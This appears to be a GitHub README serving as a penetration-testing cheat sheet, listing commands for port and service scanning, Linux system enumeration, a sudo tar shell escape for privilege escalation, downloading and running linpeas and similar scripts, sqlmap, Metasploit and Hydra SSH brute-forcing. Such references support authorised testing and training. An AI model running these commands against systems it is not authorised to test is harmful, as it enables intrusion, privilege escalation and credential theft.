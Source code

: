 ### Web Enumeration
```sh
rustscan -a <TARGET_IP> --ulimit 50000
feroxbuster -u <TARGET_URL> -w <WORDLIST> -t 50 -r -x php,html,js
nikto -host <TARGET_IP>
```

### Port Scanning
```sh
nmap -sC -sV -oA nmap_scan <TARGET_IP>
masscan -p1-65535,U:1-65535 <TARGET_IP> --rate=1000 -oX masscan.xml
```

### Service Enumeration
```sh
enum4linux -a <TARGET_IP>
rpcclient -U "" <TARGET_IP>
smbclient -L <TARGET_IP> -N
ldapsearch -x -h <TARGET_IP> -b "dc=example,dc=com"
```

### System Enumeration
```sh
sudo -l  # List all commands the current user can execute.
sudo -V
uname -a
hostnamectl
whoami
id
env
```

### Privilege Escalation Techniques
```sh
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh  # Shell Escape using tar
```

### File and Directory Enumeration
```sh
find / -type f -perm -u=s 2>/dev/null
find / -type f -name "root" -perm /4000 2> /dev/null
find / -type f -not -path "/proc/*" -not -path "/sys/*" -not -path "/home/*" -writable 2>/dev/null
find /usr/bin -maxdepth 1 -type f -executable -user $(whoami) -exec basename {} \;
```

### Network Enumeration
```sh
ifconfig -a
ip a
netstat -tulnp
ss -tulnp
arp -a
route
```

### Automation Enumeration
```sh
curl -LO https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh
chmod +x linpeas.sh
./linpeas.sh

curl -LO https://github.com/rebootuser/LinEnum/raw/master/LinEnum.sh
chmod +x LinEnum.sh
./LinEnum.sh

curl -LO https://raw.githubusercontent.com/mzet-/linux-exploit-suggester/master/linux-exploit-suggester.sh
chmod +x linux-exploit-suggester.sh
./linux-exploit-suggester.sh

curl -LO https://raw.githubusercontent.com/sleventyeleven/linuxprivchecker/master/linuxprivchecker.py
python3 linuxprivchecker.py
```

### Automation Attack
```sh
searchsploit <SEARCH_TERM>
msfconsole
```

### Exploit Development
```sh
pwntools
ROPgadget --binary <BINARY>
gdb -q <BINARY>
```

### Web Exploitation
```sh
sqlmap -u <TARGET_URL> --batch --level=5 --risk=3
wpscan --url <TARGET_URL> --enumerate u,p
```

### Post Exploitation
```sh
meterpreter
empire
```

### Bruteforce
```sh
# Hydra: A powerful online password-cracking tool.
hydra -l <USERNAME> -P <BRUTEFORCE.TXT> <TARGET_IP> -t 4 ssh  # Example usage for SSH

# Gobuster: Web directory and file brute-forcing tool for web application enumeration.
gobuster dir -u <TARGET_URL> -w <WORDLIST> -t 50

# ffuf: Fast web fuzzer written in Go
ffuf -w <WORDLIST_PATH> -u <TARGET> -H "Host:<TARGET-FUZZ>" -fw 6 -s
```
